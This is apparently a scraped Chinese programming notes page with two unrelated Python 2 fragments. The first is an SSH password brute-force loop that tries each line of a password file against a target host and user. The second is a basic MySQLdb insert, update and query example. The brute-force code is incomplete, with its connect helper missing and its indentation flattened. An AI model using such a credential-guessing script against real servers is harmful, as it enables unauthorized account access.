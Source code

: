 	hostname = sys.argv[1]
	port = int(sys.argv[2])
	username= sys.argv[3]
	password_file = “password.txt”
	
	f = open(password_file)
	try:
	for line in f:
	line = line.replace(‘\r’,”)
	line = line.replace(‘\n’,”)
	retval = try_ssh_connect (hostname, username, line, port)
	if retval == 0 :
	print “密码尝试成功! 用户名：” + username + ” 密码:” + line
	break;
	elif retval == -1 :
	print “无法连接服务器”
	break
	elif retval == -2 :
	print “尝试密码失败:” + line
	finally:
	f.close()



###python下的MySQLdb使用 
[MySQLdb](http://mysql-python.sourceforge.net/MySQLdb.html)
	# -*- coding: utf-8 -*-     
	#mysqldb    
	import time, MySQLdb    
	   
	#连接    
	conn=MySQLdb.connect(host="localhost",user="root",passwd="",db="jlmtest",charset="utf8")  
	cursor = conn.cursor()    
	
	#写入    
	sql = "insert into user(name,created) values(%s,%s)"   
	param = ("aaa",int(time.time()))    
	n = cursor.execute(sql,param) 
	conn.commit()
	conn.rollback()
	cursor.lastrowid
	conn.insert_id()
	print n    
	   
	#更新    
	sql = "update user set name=%s where id=3"   
	param = ("bbb")    
	n = cursor.execute(sql,param)    
	print n    
	   
	#查询    
	n = cursor.execute("select * from user")    
	